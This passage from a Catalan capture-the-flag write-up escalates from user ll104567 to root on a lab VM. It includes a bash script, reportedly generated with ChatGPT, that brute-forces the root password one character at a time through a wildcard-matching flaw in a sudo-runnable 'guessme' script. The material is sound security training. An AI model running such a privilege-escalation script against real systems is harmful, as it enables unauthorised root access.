

Bingo! Obtenim la contrasenya de l'usuari ll104567.

## Escalada privilegis de ll104567 a root

Ara que tenim accés com a usuari ll104567, podem procedir a llegir la flag de l'usuari (user.txt) que anteriorment no teníem permisos per accedir.

Utilitzant `su` des de l'usuari shelldredd o accedint mitjançant `SSH` amb la contrasenya obtinguda accedim com l'usuari `ll104567`.

```bash
su ll104567
```



L'usuari `ll104567` té permisos per executar com a `root` mitjançant sudo l'executable `/home/ll104567/guessme` que vam analitzar prèviament i era vulnerable.

```bash
sudo -l
```

Analitzem el script `guessme` i utilitzem ChatGPT per generar un script en bash que aprofiti la vulnerabilitat i endevini la contrasenya. En aquest punt estàvem una mica cansats i no teníem ganes d'escriure codi 😅

**getpass.sh**

```bash
#!/bin/bash
# Conjunto de caracteres a probar; puedes ampliarlo según tus necesidades.
alphabet='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_=+[]{};:,.<>/?`~'

# Variable para almacenar el prefijo encontrado (la contraseña)
password=""

# Función que ejecuta guessme con un input dado y devuelve la salida
function test_guess() {
    local guess="$1"
    # Se envía el input sin salto de línea adicional
    echo -n "$guess" | sudo /bin/bash /home/ll104567/guessme 2>/dev/null
}

echo "Iniciando extracción de contraseña..."

while true; do
    # Primero, probamos si el prefijo actual ya es la contraseña completa.
    output=$(test_guess "$password")
    if [[ "$output" == *"Password matches!"* ]]; then
        echo "¡Contraseña encontrada: $password!"
        break
    fi

    found=0
    # Iteramos por cada carácter del alfabeto
    for (( i=0; i<${#alphabet}; i++ )); do
        c="${alphabet:$i:1}"
        guess="${password}${c}*"
        output=$(test_guess "$guess")
        if [[ "$output" == *"Password matches!"* ]]; then
            password="${password}${c}"
            echo "Caracter encontrado: '$c' -> Contraseña parcial: $password"
            found=1
            break
        fi
    done

    # Si no se encontró extensión, se detiene el script.
    if [ $found -eq 0 ]; then
        echo "No se pudo extender la contraseña. Contraseña parcial: $password"
        break
    fi
done
```

Copiem el codi i creem un fitxer al directori home de l'usuari, li assignem permisos d'execució i l'executem.



Un cop obtinguda la contrasenya de l'usuari `root` mitjançant l'script, utilitzem el comandament `su` per canviar a l'usuari root. Finalment, llegim el contingut del fitxer `root.txt` que conté la flag final del sistema.



Agraeixo a suraxddq per aquesta excel·lent màquina virtual. A través d'aquest laboratori, he adquirit coneixements valuosos sobre la seguretat de les wallets d'Ethereum i les vulnerabilitats associades a la seva implementació.

